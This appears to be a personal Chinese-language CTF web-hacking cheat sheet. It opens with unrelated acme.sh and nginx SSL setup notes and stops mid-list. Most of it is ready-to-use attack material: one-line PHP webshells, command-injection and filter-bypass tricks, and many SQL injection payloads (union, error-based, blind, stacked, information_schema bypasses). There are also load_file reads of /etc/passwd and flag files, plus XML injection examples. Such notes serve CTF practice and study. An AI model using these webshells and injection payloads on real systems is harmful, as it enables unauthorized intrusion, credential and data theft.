	acme.sh --renew -d peekaboo.show \
 --yes-I-know-dns-manual-mode-enough-go-ahead-please

	/* ------------------------------------------------------------------------------
		创建目录存储ssl证书
	-------------------------------------------------------------------------------*/
	# acme.sh自动更新
	acme.sh --upgrade --auto-upgrade

    mkdir -p /etc/nginx/ssl/theos.in/
    cd /etc/nginx/ssl/theos.in/
    openssl dhparam -out dhparams.pem -dsaparam 4096

		# --issue: 颁发新证书。
        # -w /DocumentRootPath/：指定 Web 根模式的 Web 根文件夹。
        # -d example.com：指定一个域，用于发布、更新或撤销等。可以多次使用。
        # -k 2048：指定域密钥长度。
	# 颁发证书
    acme.sh --issue -w /var/www/html -d peekaboo.show -d www.peekaboo.show
	acme.sh --issue -w /var/www/html -d peekaboo.show -d www.peekaboo.show -k 4096

```

```nginx
├── .config.[env].json 		# Ghost 实例的配置文件
├── .ghost-cli 				# Ghost CLI的实用系统文件，不要修改
├── /content 				# 主题/图像/内容，更新时不会改变
├── /current 				# 指向当前活动版本 Ghost 的符号链接
├── /system 				# NGINX/systemd/SSL 生产安装文件
└── /versions 				# 已安装的 Ghost 版本可用前滚/后滚到
```


## 1、php

>   **双美元符号：`$$`，如：`$a ='hello';`,`$hello ='world';`**
>
>   其中：`$a`就是普通的变量，`$$a`就是把`$a`的值作为变量名，然后再去访问这个变量名的值
>
>   也就是说`$$a`的值就是  => `$hello` = `word`，使用这种方式就是可以把**想要访问的变量的变量名**设置为**自己所控制的变量名的值**，以达到**访问别的变量值**的效果


### **`0、$_SERVER`**

**绕过`$_SERVER['QUERY_STRING']`**

>   `$_SERVER['QUERY_STRING']`不会进行**urldecode**，`$_GET[]`会，用url编码绕过

**绕过`$_REQUEST`**

>   `$_REQUEST`在同时接收GET和POST参数时，POST优先级更高

```nginx
$_SERVER — 是PHP预定义的超全局变量，是一个包含了诸如头信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组

$_SERVER[‘PHP_SELF’]、$_SERVER[‘SCRIPT_NAME’] 与 $_SERVER[‘REQUEST_URI’]的差别

案例网址：https://www.shawroot.cc/php/index.php/test/foo?username=root
$_SERVER['PHP_SELF'] 	得到：/php/index.php/test/foo
$_SERVER['SCRIPT_NAME'] 得到：/php/index.php
$_SERVER['REQUEST_URI'] 得到：/php/index.php/test/foo?username=root
NSSCTF{3c99e01b-26dc-400b-9302-a63af558770c}
# 获取用户的IP地址
$_SERVER["REMOTE_ADDR"] => "127.0.0.1"，
```

```nginx
basename() 			— 返回路径中的文件名部分
会去掉不可见字符，使用超过ascii码范围的字符就可以绕过
```

```nginx
addslashes — 函数返回在预定义字符之前添加反斜杠的字符串。预定义的字符有：单引号，双引号，反斜杠，NULL
	$str = "Is your name O'reilly?";
	# 输出： Is your name O\'reilly?
	echo addslashes($str);
```

```nginx
mt_srand()		给随机数发生器播种,播种 Mersenne Twister 随机数生成器。
mt_rand()		使用 Mersenne Twister 算法返回随机整数。语法：mt_rand(min,max);
	mt_rand()产生随机数时，如果用srand(seed)播下种子之后，一旦种子相同，产生的随机数将是相同的。

mt_rand() 		函数是一个伪随机发生器，即如果知道随机数种子是可以预测的。
	解题：使用工具php_mt_seed
	获取获取mt_srand()的一个随机数
	然后使用php_mt_seed去跑出结果，./php_mt_seed 随机数
	第一个就是，然后在PHP环境中测试输出种子的下一个随机数
	
	
```


### 1、PHP常见方法

==php的一些特性==

-   **php在解析字符串时会把点和空格解析成 _** 
-   **php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup()**

```nginx
sha1() 		计算字符串的 sha1 散列值
if (sha1('apple') === 'd0be2dc421be4fcd0172e5afceea3970e2f3d940') {}
    
例子：if (sha1($shana) === sha1($passwd) && $shana != $passwd ){}
    # 绕过例子：$shana[]=1&$passwd[]=2
    # 绕过原理：sha1()函数无法处理数组，$shana和$passwd都是数组时，都是false	
```

```nginx
preg_match()								执行匹配正则表达式, 
	
绕过原理：1、它会努力去匹配第一行，可以利用多行的方法【%0A】截断，也可以使用【%00】截断
			但受限以下两种情况下可以使用【%00】截断
			magic_quotes_gpc=off
 			php<5.3.4
	
		2、可以利用空字符串绕过正则
		3、也可以利用回溯绕过
案例：
	preg_match('/^dsf$/') 可以加上换行符%0a截断绕过(ds%0af)，因为这个正则是需要固定出现
```

```nginx
putenv()									设置环境变量的值(只能用绝对路径来调用系统命令)
	Linux命令的位置：/bin,/usr/bin，默认都是全体用户使用，/sbin,/usr/sbin,默认root用户使用
```

```nginx
exif_imagetype()   							判断一个图像的类型
	绕过方法：“\x00\x00\x8a\x39\x8a\x39”还有%00
一	#define width 1337
	#define height 1337
```

```nginx
is_numeric 									检测变量是否为数字或数字字符串
	 	会判断如果是数字和数字字符串则返回 TRUE，
		否则返回 FALSE,且php中弱类型比较时，
		会使('1234a' == 1234)为真，或者'12345%00'，
		该函数还可能造成sql注入，
		例如将‘1 or 1'转换为16进制形式，再传参，就可以造成sql注入
```

```nginx
eval —把字符串作为PHP代码执行
	例： eval("#".$_GET['cmd']); => cmd = %0a system('cat /flag')
		只需要利用%0a作为换行符即可绕过，这是因为"#"只是单行注释。
```

```nginx
addslashes 在特殊字符前添加\
	例如：addslashes()，产生的【\】不会进入数据库，
	即'1过滤后变成\'1，进入库中却仍为'1，我们在取出数据后进行二次拼接，即可造成注入
```

```nginx
file_get_contents()		将整个文件读入一个字符串
	例如：
	if (file_get_contents($file) !== 'debu_debu_aqua')
	# 可以使用data伪协议绕过：data://text/plain,debu_debu_aqua

```

```nginx
create_function()：如果【_】被过滤可以使用：命名空间【\】绕过，只需要再函数名
	获取flag的方式使用：get_defined_vars()，获取到上下文所有的参数值
	代码注入时选择得注释符号可以是#，也可以是\\，但是#需要编码，即%23

<?php
    $new = create_function('$a,$b','return $a * $b;');
    echo $new(1,2);
?>
    // 等价以下
    <?php
        function lambda1('$a,$b'){
    		return $a * $b;	
		}
	?>
```

```nginx
system()	用于执行外部程序，并且显示输出
exec()		函数用于执行一个外部程序

shell_exec()函数通过shell环境执行命令,并且将完整的输出以字符串的方式返回
	${IFS}绕过空格，它是shell的特殊环境变量,是Linux下的内部区域分隔符
    $IFS$9绕过也可以达到绕过空格的效果，要大写
	%09是制表符通过Url编码后显示的样子，它也可以绕过空格
	以下在linux中可执行，实战看情况
        { }绕过，如：{cat,/f*}
        <绕过，cat</f*

passthru	函数用于执行外部程序并且显示原始输出
popen()		函数用于打开进程文件指针
```

```nginx
basename()		返回路径中的文件名部分,两个参数第二个参数是：可选。规定文件扩展名。
	<?php
        $path = "/testweb/home.php";
        //显示带有文件扩展名的文件名
        echo basename($path);
        //显示不带有文件扩展名的文件名
        echo basename($path,".php");
	?> 
绕过原理：
	在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符。
如：
	测试代码：
    <?php
    $file = $_GET['file'];
    echo basename($file);
	传入值分别为：
    http://localhost/?file=%ffindex.php/%ff  ==  # index.php
    http://localhost/?file=%ffindex.php	== #index.php
    http://localhost/?file=index.php%ff	== #index.php
    http://localhost/?file=index.php/%2b	== #+

其中：ascii值为47、128-255的字符均可以绕过basename()、
	其中47对应的符号为'/'，在实际场景中没有利用价值
同时中文字符也可以绕过basement()
```

**[basement会忽略的字符串脚本](###7、basement()忽悠的字符脚本)**


```apl
preg_replace()								执行一个正则表达式的搜索和替换
strpos()									查找字符串首次出现的位置
include()									表达式包含并运行指定文件。

highlight_file 								语法高亮一个文件
simplexml_load_string()						可以读取XML
intval()									获取变量的整数值
simplexml_load_file()						是把 XML 文档载入对象中
unset() 									销毁指定的变量。
extract()									(变量覆盖)本函数用来将变量从数组中导入到当前的符号表中
move_uploaded_file()							将上传的文件移动到新位置
implode()									用字符串连接数组元素
hex2bin()									把十六进制值转换为ASCII字符
base_convert()								在任意进制之间转换数字
dechex()									把十进制转换为十六进制
substr_count()								计算字串出现的次数
ord()										转换字符串第一个字节为 0-255 之间的值

ar_dump()									打印变量的相关信息
intval  									获取变量的整数值


mb_strpos 			— 查找字符串在另一个字符串中首次出现的位置
count_chars()		— 返回字符串所用字符的信息
print_r()	 		— 以易于理解的格式打印变量。
ini_set()			— 为一个配置选项设置值
require_once 		- 表达式和 require 表达式完全相同，唯一区别是PHP会检查该文件是否已经被包含过，如果是则不会再次包含。

hash_equals			- 比较两个字符串，无论它们是否相等，本函数的时间消耗是恒定的
random_bytes 		— 生成加密安全的伪随机字节

$_FILES[] — HTTP 文件上传变量
$_REQUEST[] — HTTP Request 变量

	
!==字符串比较可以使用%0a绕过
================================================
SSRF有关函数：
file_get_contents()
fsockopen()
curl_exec()

```

### 2、php魔术方法

```nginx
php魔术方法：
__construct()					函数初始化时调用
__destruct()					函数销毁时调用
__call()					调用不存在或不可见的方法时自动触发
__callStatic()				执行静态对象中的一个不可访问的方法时调用PHP5.3.0以上版本有效，
__isset()					当对不可访问属性调用isset()或empty()时调用
__unset()					当对不可访问属性调用unset()时被调用。
__sleep()						执行serialize()时，先会调用这个函数
__wakeup()						执行unserialize()时，先会调用这个函数
	当序列化后的参数列表个数和实际序列化参数个数不同会跳过这个__wakeup()函数
	如某个对象序列化值为：O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
	修改为：O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}就不会执行wakeup()函数

__toString()				类被当成字符串时调用的方法
__invoke()					使用当前类对象调用其中的方法时触发
__set_state()				调用var_export()导出类时自PHP 5.1.0起有效，此静态方法会被调用
__clone()					当对象复制完成时调用
__autoload()				尝试加载未定义的类
	在 __autoload 函数中抛出的异常不能被 catch 语句块捕获
__debugInfo()				打印所需调试信息
__get()						获得一个类的成员变量时调用
__set()						设置一个类的成员变量时调用
```

==phpinfo需要注意的参数==

```
auto_append_file 
```


>   -   `intval()`函数的使用方式，**如果intval函数参数填入科学计数法的字符串，会以e前面的数字作为返回值**；但是如果先**科学计数法+数字**，此时会先将科学计数法变为正常的数再进行加法运算，之后才传入`intval()`进行转换。
>       -   ==**该方法只有php5才生效**==


```nginx
-- 绕过in_array()黑名单绕过，使用\ 反斜杠

-- 绕过waf，远程代码执行返回根目录文件列表
var_dump(scandir(chr(47)))

-- 获取文件列表中的文件,文件名使用ASCII码拼接而成
file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))

-- strcmp函数检测绕过
在参数名称上加个中括号

-- tornado中的cookie通过模板注入拿到，用的就是handler.settings对象
handler 指向RequestHandler
而RequestHandler.settings又指向self.application.settings
所有handler.settings就指向RequestHandler.application.settings了！


-- Unicode欺骗，对于一些特殊字符，nodeprep.prepare会进行如下操作
ᴬ -> A -> a
那么，攻击链大概就这样

注册用户ᴬdmin
登录用户ᴬdmin，变成Admin
修改密码Admin，更改了admin的密码

```

### 3、phpinfo中可以配置

```nim
open_basedir
disable_functions
```

**PHP5 和 PHP7 之间的差异大**

#### 1、phpinfo中参数解释、

##### 1、System

>   -   一般是两种 **Linux** 和 **Windows** 
>   -   后期命令执行的时候或者是 bypass disable_function 的时候有用

##### 2、**Configure Command（编译命令）**

>   这个其实就是编译 php 的时候的命令,
>
>   这里面其实包含了几乎所有的php要加载的扩展和功能，
>
>   但是看起来不是很方便(因为比较乱),但也是一目了然，当然这些功能在后面都有专门的栏目介绍。

##### 3、**Loaded Configuration File(配置文件位置)**

>   这一栏表明了 **php.ini 这个 php 配置文件的位置**，
>
>   在**有文件读取**的情况下可以进行读取，在渗透中还是很有帮助的。

##### 4、**Registered PHP Streams(支持的流)**

>   这个在文件包含、**反序列化**还有一些关键的 bypass 的时候非常有用

##### 5、**Registered Stream Filters(支持的流过滤器)**

>   个同样在文件包含、**反序列化**还有一些关键的 bypass 的时候非常有用

##### 6、**Core(核心)**

>   这个栏目里面有非常多重要的配置信息，我们可以简单的看一下：

###### 1、**allow_url_fopen&allow_url_include**

**文件包含必看选项之**

###### 2、**disable_functions**

**命令执行、代码执行必看选项之一**

###### 3、错误输出

>   **display_errors**
>
>   **display_startup_errors**

###### 4、**enable_dl**

**默认为 on(在未来将被移除)**

>   **该指令仅对 Apache 模块版本的 PHP 有效，动态添加php模块**

###### 5、**extension_dir**

###### 6、**include_path**

>   PHP 用include()函数包函文件时的默认路径

###### 7、**open_basedir**

>   **这个选项设置了文件读取的时候的目录限制**

###### 8、**short_open_tag**

>   判断服务器是不是**支持短标签**，这在写 shell 的时候很有帮助

##### 7、**phar**

>   **文件包含还有反序列化重点关注**

###### 8、**SESSION**

###### 9、**PHP Variables**

 


## 2、一句话木马

```nginx
-- script标签要求php版本在7.0以下
<script language='php'>eval($_POST['cmd']);</script>
<script language='php'>system('cat /flag');</script>
<?php @eval($_POST['shell']);?>
-- 短标签写法
这个<?= ?>相当于<?echo ?>
-- 短标签<? ?>需要php.ini开启short_open_tag = On，但<?= ?>不受该条控制
<?=@eval($_POST['shell']);?>
<?=$_GET['cmd']; ?>

filename="<?=$_GET['cmd']; eval($_POST['cmd']); ?>"
```

```nginx
取反木马构造：
urlencode(~'assert');
urlencode(~'(eval($_POST[mochu]))')
```

```nginx
使用【``】符号PHP会尝试将反引号中的内容作为shell命令来执行，与函数shell_exec() 相同
	关闭了 shell_exec() 时反引号运算符是无效的，反引号不能在双引号字符串中使用。
	例如：`ls /`
使用【\t】绕过空格检查
使用【%09】也可以代替空格
```


## 4、登录框类型做题捕步骤

-   1、**查看是否存在注册页面，可以尝试/register.php**
-   **2、查看源代码，是否存在第二个页面5**
-   是否有报错回显
-   尝试参数传递数组绕过字符串检测
-   首先用简单的sql查看是否存在sql注入
-   然后扫描目录查看是否有备份文件
    -   备份文件可能为：`.swp`、`.bak`


## **3、sql注入一些方法**

**常用的sql注入playload案例**

```sql
/**/order/**/by/**/2
/**/union/**/select/**/1,database();#

# ----------表名---------
/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database();#

# ----------库名---------
/**/union/**/select/**/1,group_concat(schema_name)/**/from/**/information_schema.schemata
# ----------字段名---------
/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='alien_code'/**/and/**/table_name='code';#
# ----------字符串截取---------
substr(flag,1,20)
mid(flag,1,15);
```


 **[网鼎杯2018]Unfinish**

==sql中相加是会先转化成数字（和php类似，弱类型）再进行相加==

==[sql中的hex是将字符串转为16进制的，同时只要进行2次hex就不会出现类型abc这类字母，可以用做盲注](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)==

**当无法获取表名时，可以猜测表名为：flag**

-   **mysql 中md5(string, true)，**
    -   **true：返回16位原始二进制格式的字符串**
    -   **默认false：就返回32位16进制的字符串**
    -   **绕过特例：ffifdyop **
        -    这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，
        -   这个字符串前几位刚好是`'or '6`，
        -   如：`select * from 'admin' where password=md5($pass,true）`
        -   就变成了：`select * from ‘admin’ where password=’’ or ‘6......’`

>   -   `select * information_schema.tables;`记录所有表名
>   -   `where table_name=''`筛选条件
>   -   `select * from information_schema.columns;`记录所有的列名
>   -   `where column_name=''`筛选条件
>   -   `wherw table_schema=''`筛选条件

>   **信息收集**
>
>   -   **判断数据个数order by x 根据正确域错误的格式来判断个数，然后select 1,2,3,...**
>   -   **查询数据库 version()**
>   -   **数据库名字 databaase()**
>   -   **数据库用户 user()**
>   -   **操作系统 @@version_compile_os**

>   **文件读写操作**
>
>   -   **load_file():读取函数**
>   -   **into outfile或iinto dumpfile:导出函数**
>   -   **获取路径的常见方法**
>   -   **报错显示、遗留文件、漏洞报错、平台配置文件、爆破等、**

```mysql
-- hex()将一个数字或者字符串转换为16进制
-- unhex()将一个16进制数字或者字符串转换回去
select ''+hex(database())+'';
select ''+UNHEX(7065656)+'';
```


```sql
1' union select 1,2#
1' union select database(),user()#

1' union select 1,group_concat(table_name) from information_schema.tables where table.schema=database()#

1' union select 1,group_concat(column_name) from information_schema.columns where table_name=''#

1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='表名'#

1' union select 1,group_co
```

###0、测试案例

`/var/www/html`是网站根目录

```sql
首先确定是否存在过滤，过滤了哪些关键字
'or '1' = '1	
'or '1' = '2
admin' OR '1'='1
admin' ORDER BY 4#
admin'/**/ORDER/**/BY/**/3#


1'/**/group/**/by/**/22,'3	判断有多少列
\||/**/1;%00

抓包，寻找注入点，看`cookie`、`session`

寻找注入点方法：
使用单引号注入
使用双引号注入
输入^判断是否页面发生改变
1^1^1 	使用异或方式

id=1 ==>Nu1L
id=2 ==>V&N
id=2-1 ==>Nu1L
```

```nginx
# 当存在以下过滤
if(preg_match("/regexp|between|in|flag|=|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
    
    # 可用绕过
sleep 	可以用benchmark代替
<,> 	可以用least(),greatest()代替
=,in 	可以用like代替 
substr 	可以用mid代替
空格	   可以用/**/代替
```


### 1、sql注入常用函数

```nginx
-- 读取本地文件
-- '/etc/passwd [ 查看数据库中所有用户目录]
select load_file('/etc/passwd')

-- 读取隐藏的文件:.bash_history，记录着用户命令记录
select load_file(‘//home/www/.bash_history’)

-- 以16进制输出文件内容
select hex(load_file(‘//tmp/html/.DS_Store’))

```


### 2、【sql注入之：**报错注入最长输出32位**】


#### 1、Xpath注入报错注入

-   xPath是一种在xml查找信息的语言

-   XPath注入攻击是指利用XPath 解析器的松散输入和容错特性，

    -   能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。

-   XPath注入攻击特点

    -   >   XPath注入攻击利用两种技术，即**XPath扫描**和 **XPath查询布尔化**。
        >
        >   通过该攻击，攻击者可以控制用来进行XPath查询的XML数据库。
        >
        >   这种攻击可以有效地对付使用XPath查询（和XML数据库） 来执行身份验证、查找或者其它操作。

-   **XPath没有访问限制，注入出现的位置也就是`cookie`，`headers`，`request` `parameters/input`等。**

```nginx
当select union 等关键字被屏蔽可以使用【^】这个符号来连接函数,
# 如果空格和等号无法发挥作用，空格使用()代替，like代替=号
例：password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23		
flag只出现一半，right需要指定从右边开始显示多少个字符
'^extractvalue(1,concat(0x7e,(select(select(left(password))from(H4rDsq1))),0x7e))%23
```


#### 4、报错注入（==报错输出最大字符数为32个==）

**==limit：第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0(而不是 1)==**

**第二个参数控制显示数据条数**

```sql
SELECT * FROM table LIMIT 5,10; // 检索记录行 6-15   
  
//为了检索从某一个偏移量到记录集的结束所有的记录行，可以指定第二个参数为 -1：    
SELECT * FROM table LIMIT 95,-1; // 检索记录行 96-last.   
  
//如果只给定一个参数，它表示返回最大的记录行数目：    
SELECT * FROM table LIMIT 5; //检索前 5 个记录行   
  
//换句话说，LIMIT n 等价于 LIMIT 0,n。  
```


>   -   **留言板类型报错注入，寻找注入点的为有查询的地方，在插入数据的地方写上注入语句，注入成功一般会无回显，**
>   -   **【需要注意：# 和 %23的转换，在页面输入框中使用#，浏览器url中使用%23】**
>   -   报错注入的解释：
>       -   ==让它故意报错，将第二个参数中的语句带入数据库中执行，然后显示一个报错执行结果==
>
>   ```nginx
>   可使用的语句：
>   data = ' and extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   	-- 进一步获取所有表名
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
>   	-- 进一步获取表字段
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='wfy_comments')))#
>   	-- 进一步获取表数据
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(id,text,user,name,display)from 表名)))#
>   		-- 如果不能一次性输出所有数据可使用limit
>   		data = ' and extractvalue(1,concat(0x7e,(select group_concat(id,text,user,name,display)from wfy_comments limit 10,11)))#
>   data = ' ^extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   data = ' and updatexml(1,concat(0x7e,(version())),0)#
>   	-- 爆库information_schema,mysql,performance_schema,wfy：
>   	data = ' and updatexml(1,substr(concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e),40,20),1)#
>   	data = ' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),0)#
>   
>   -- 当关键字[and] 被过滤后可使用[^]代替
>   data = ' ^extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   -- 当关键字[空格]被过滤后可使用[()]代替
>   -- 当所有关键字被正则过滤一次，可使用双写绕过[seselectlect]
>   ```
>
>   


### 3、bool盲注

>   **注入时可以考虑使用【%00】【\x00】截断，在数据库不会执行后面的语句**
>
>   **mysql默认关闭InnoDB存储引擎，未关闭可以使用`mysql.innodb.table_stats`代替`information_schema`**


####  **[GYCTF2020]Ezsqli 1**

>   **判断注入点payload：【1&&1=1】和【1&&1=2】**

```nginx
id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)
if(ascii(substr(database(),%d,1))>%d,1,0)
1^(ascii(substr(database(),1,1))>1)
1||length(dataase())>1

ascii(substr(select(GROUP_CONCAT(table_name))FROM(information_schema.tables)))
```

**`information_schema`被过滤使用`sys.x$schema_flattend_key`**

```sql
substr((select group_concat(table_name) from sys.x$schema_flattened_keys where table_schema=database()),1,1)='f'
```


#### **[NCTF2019]SQLi（正则盲注）**

```json
{
   "username": "\\",
   "passwd": '||/**/passwd/**/regexp/**/"^a";\x00'
}
```

**基本注入案例**

```sql
-- 正常注入语句
select username from users where id = 1;

-- 正则注入，如果username的第一个字符是a返回1，不是a返回0
select (select username from users where id=1) regexp '^a';

-- 联合查询中爆破数据库名
1 union select 1,database() regexp '^s',3--+
```

>   **regexp可以代替where条件中的 = 号**
>
>   **当过滤了【=】【in】【like】的时候就可以使用这个办法**
>
>   **【^】被过滤也可以使用【$】从后往前匹配**


### 4、堆叠注入

[[SUCTF 2019\]EasySQL](https://www.cnblogs.com/Jinx8823/p/16478705.html)

[MySQL的sql_mode合理设置](https://www.cnblogs.com/Junglezt/p/16657688.html)

```nginx
当注入的源码语句为：select $_POST[‘query’] || flag from Flag
绕过方式有两种：
	select *,1 || flag from Flag  # || 这个符号在linux里是管道符，前面命令为真，不执行后面语句
	1;set sql_mode=pipes_as_concat;select 1
	pipes_as_concat： 将"||"视为字符串的连接操作符而非或运算符
	这是整个语句就变成了：select concat(1,flag)from Flag


1' ; show databases; 				# 爆破数据库
1 ' ; show tables from supersqli;   # 爆表
1 ' ; show columns from `FlagHere`; # 爆字段

拿flag
1';
handler score open;		//打开一个表名为 FlagHere的表的句柄
handler score read first;//获取句柄的第一行（相当于第一个字段）
handler score close;#  	//关闭句柄

1';handler score open;	handler score read first;handler score close;#
```

### 5、or关键字被过滤（留言板类型注入）

-   被过滤就无法使用information_schema库，

    -   替代使用mysql.innodb_table_stats查询表名,`table_schema`用`database_name`

-   information_schema库用不了，使用sys.x$schema_flattened_keys来爆表名

-   ```sql
    替代使用mysql.innodb_table_stats查询表名
    `table_schema`用`database_name`
    
    mysql.innodb_table_stats表下分别是
    `database_name`,`table_name`,`index_name`。你用了这个表，相对的也要换成`database_name`
    ```


### 6、Unicode欺骗

```nginx
对于一些特殊字符，nodeprep.prepare会进行如下操作
ᴬ -> A -> a
那么，攻击链大概就这样

注册用户ᴬdmin
登录用户ᴬdmin，变成Admin
修改密码Admin，更改了admin的密码

注册用户admin"#  
来闭合sql语句和注释掉后面的sql语句，
并admin"#账户的密码，修改后的密码即为admin账户的密码
```


### 7、无列名注入

>   构成注入可使用 
>
>   ```
>   1' 注入语句 '1
>   ```
>
>   ==注释符号被过滤代替==
>
>   ```nginx
>   注释符#用,'3代替，数字随便
>   这里的'相当于闭合了输入语句里参数的右引号，变成'3'字符串,此时整个语句没有注释符）
>   ```
>
>   ```sql
>   无法获取列名就给列名取别名的方式进行注入
>   union select 1，(select group_concat(b) from (select 1,2,3 as b union select * from users) a)
>   
>   
>   `b别名为users表第二列别名`
>   `select 1,2,3这样查询数据库中会显示三列，列名也为1,2,3，`
>   (select 1,2,3 union select * from users) a
>   `这个查询就会以列名1,2,3去查询users中所有内容
>   select group_concat(b)
>   `就是查询users表第二列。那为什么是1,2,3没有4,5,6或以上呢。因为users表就只有三列，多输入列数就报错了`
>   `可以把group_concat(b)换成group_concat(1),这样就会显示有多少列`
>   最后派生的表需要取别名，要不然会报这个错`Every derived table must have its own alias`
>   
>   -- 注入到最后发现有干扰信息可以使用正则匹配相关信息
>   f"&&(extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#))))#
>   
>   ```
>
>   


### 8、利用sql读取文件

```nginx
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

```


### 9、mysql中ascii位偏移

>   **结论：**
>
>   -   比较两个字符串的大小与字符串的长度是没有关系，给定两个字符串，会各取两个字符串的首字符ascii码来比较，**不等式成立返回1，不成立返回0，也就是只会比较一次，也就是首字符进行比较**


### 10 、XXE（XML外部实体注入）

**寻找方法**

==查看服务器的回显格式`application/xml、appplication/dtd-xml,text/xml`==

==改变请求的方法为`POST`时，在`header`头部添加 `Content-Type: application/xml`并在`POST`数据中添加了一个不合法的`XML`数据，==**响应**==更加说明这里有`XXE`漏洞了。==


##### XXE漏洞简介

https://virusday.github.io/2020/11/18/XXE%E6%80%BB%E7%BB%93/XXE%E6%80%BB%E7%BB%93/

==解析xml在php库libxml，libxml>=2.9.0的版本中没有XXE漏洞。==

==XXE漏洞也分为有回显和无回显==

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，

造成**任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击**等危害。

XXE漏洞触发的点往往是可以上传xml文件的位置，

**XML对大小写敏感(xxe)**

-   XML的设计宗旨是传输数据，而非显示数据。

    -   **XML注入**是一种古老的技术，通过利用闭合标签改写XML文件实现的。

    -   ```xml
        xml注入案例
        
        <?xml version="1.0" encoding="utf-8"?>
        <manager>
            <admin id="1">
            <username>admin</username>
            <password>admin</password>
        
            </admin>
            <admin id="2">
            <username>root</username>
            <password>root</password>
            </admin>
        </manager>
        
        <!-- 
        	对于上面的xml文件，如果攻击者能够掌控password字段，那么就会产生XML注入。如攻击者输入：
        		admin </password>
        	</admin>
        	<admin id="3">
        		<name>hack</name>
        		<password>hacker</password>
        	</admin>
        	这样就通过XML注入添加了一个名为hack、密码为：hacker的管理员账户。
        --> 
        
        结果为
        <?xml version="1.0" encoding="utf-8"?>
        <manager>
            <admin id="1">
            <name>admin</name>
            <password>admin</password>
            </admin>
            <admin id="2">
            <username>root</username>
            <password>root</password>
            </admin>
            <admin id="3">
            <name>hack</name>
            <password>hacker</password>
            </admin>
        </manager>
        ```
        
        

-   XXE(XML External Entity Injection)全称为XML外部实体注入

-   XML还可能存在XML注入和XPath注入

    -   >   **XML 和 HTML 之间的差异**
        >   XML 不是 HTML 的替代。
        >   XML 和 HTML 为不同的目的而设计：
        >
        >   XML 被设计用来传输和存储数据，其焦点是数据的内容。
        >   HTML 被设计用来显示数据，其焦点是数据的外观。
        >   HTML 旨在显示信息，而 XML 旨在传输信息。

##### DTD

-   用于控制XML的文档规范，DTD用来为XML文档定义语义约束，可以嵌入在XML文档中(内部声明)，也可以独立的放在另外一个单独的文件中(外部引用)。


### 11、[绕过information_schema库](https://www.mi1k7ea.com/2021/02/21/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information-schema/)

>   `information_schema`是MySQL中自带的一个信息数据库，其中保存着MySQL数据库中所维护的其他库信息，如：**数据库名、表名、字段名、相关的数据类型与访问权限**

-   其中包含以下表
    -   schemata：有当前数据库所有信息，`show databases`的结果来自这里
    -   stables：提供数据库中表的信息，`show tables from shemaname`的结果来自这里
    -   columns：提供列信息，`show columns from shcemaname.tablename`的结果来自这里
    -   statistics：提供索引信息，`show index from shcemaname.tablename`的结果来自这里
    -   user_privileges：用户权限信息，它的信息源于`mysql.user`授权表
    -   schema_privilieges：提供关于数据库权限信息，来自`mysql.db`授权
    -   character_sets：提供mysql可用字符集信息，`show character set`的结果来自这
    -   collations：提供关于各种字符集的对照信息

#### 1、常见利用

```sql
# 查询所有数据库
select schema_name from information_schema.schemata;

# 查询指定数据库存在哪些表
select table_name from information_schema.tables where table_schema='security';

# 查询指定表存在哪些字段
select column_name from information_schema.columns where table_schema='security' and table_name='users';
```

>   **然后，就是根据查询到的表名、列明进行进一步的查询即可得到目标数据。**

####2、过滤了`information_schema`

-   **Mysql 5.5.8开始，Innodb成为默认存储引擎**

-   **Mysql 5.6以上版本中，新增`innodb_index_stats`和`innodb_table_stats`两张表**

    -   这两张表中都**存储了数据库**和**其他数据表的信息**，**没有存储列名**

-   **Mysql 5.6版本中，可以使用`mysql.innodb_table_stats`和`mysql.innodb_table_index`这两张表来替换`information_schema.table`实现注入，只不过没有列名**

-   ```sql
    ?id=0' union select 1,2,(select group_concat(database_name) from mysql.innodb_table_stats)%23
    
    ?id=0' union select 1,2,(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())%23
    ```

-   **Mysql 5.7中，innodb不作为默认数据库引擎其中这两个表不包含新建立的库和表相关信息**

    -   可以使用`select * from innodb_table_stats`查看

-   **Mysql 5.7中，新增sys系统数据库，它是通过视图的形式把`information_schema`和`performanace_sachema`结合起来**

    -   **sys库下有两种表**

        -   **字母开头**：适合人阅读，是格式化的数据
